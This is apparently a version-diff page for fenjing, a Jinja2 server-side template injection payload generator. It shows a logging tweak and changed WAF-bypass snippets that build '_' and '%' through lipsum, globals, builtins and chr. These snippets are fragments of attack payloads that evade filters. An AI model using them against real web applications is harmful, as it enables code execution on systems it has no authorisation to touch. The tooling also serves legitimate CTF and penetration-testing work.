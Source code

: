 ### Comparing `fenjing-0.3.6/fenjing/form.py` & `fenjing-0.3.7/fenjing/form.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.3.6/fenjing/form_cracker.py` & `fenjing-0.3.7/fenjing/form_cracker.py`

 * *Files 1% similar despite different names*

```diff
@@ -127,15 +127,15 @@
             })
             return None
 
         is_test_success = None  # payload测试成功时为True, 失败时为False, 无法测试为None
         if will_print:
             if self.test_input(input_field, payload):
                 logger.info(
-                    f"{colored('green', 'Success!')} Now we can generate payloads.")
+                    f"{colored('green', 'Success!', bold=True)} Now we can generate payloads.")
                 is_test_success = True
             else:
                 logger.info(
                     f"{colored('yellow', 'Test Payload Failed', bold=True)}! Generated payloads might be useless.")
         else:
             logger.info(
                 f"Input {input_field} looks great, but we WON'T SEE the execution result! " +
```

### Comparing `fenjing-0.3.6/fenjing/full_payload_gen.py` & `fenjing-0.3.7/fenjing/full_payload_gen.py`

 * *Files 8% similar despite different names*

```diff
@@ -14,19 +14,19 @@
     if len(ints) == 0:
         logger.warning("No IntVars For YOU!")
     return payload, dict(zip(var_names, ints))
 
 
 def get_str_context(waf_func):
     str_vars = [
-        ("un", "_", "{%set un=(lipsum|escape|batch(22)|list|first|last)%}"),
-        ("perc", "%", "{%set perc=(lipsum[(lipsum|escape|batch(22)|list|first|last)*2" +
-         "+dict(globals=x)|join+(lipsum|escape|batch(22)|list|first|last)*2]" +
-         "[(lipsum|escape|batch(22)|list|first|last)*2+dict(builtins=x)" +
-         "|join+(lipsum|escape|batch(22)|list|first|last)*2][dict(chr=x)|join](37))%}"),
+        ("un", "_", "{%set un=((({}|select()|trim|list)[24]))%}"),
+        ("perc", "%", "{%set perc=(lipsum[((({}|select()|trim|list)[24]))*2" +
+         "+dict(globals=x)|join+((({}|select()|trim|list)[24]))*2]" +
+         "[((({}|select()|trim|list)[24]))*2+dict(builtins=x)" +
+         "|join+((({}|select()|trim|list)[24]))*2][dict(chr=x)|join](37))%}"),
         # ("fc", "{:c}", "{%set fc={{{1:2}|string|replace({1:2}|string|batch(4)|first|last,{}|join)|replace(1|string,{}|join)|replace(2|string,dict(c=1)|join)}}%}")
     ]
     str_vars = [tpl for tpl in str_vars if waf_func(tpl[2])]
     return "".join(payload for _, _, payload in str_vars), {var_name: var_value for var_name, var_value, _ in str_vars}
 
 
 def get_outer_pattern(waf_func):
```
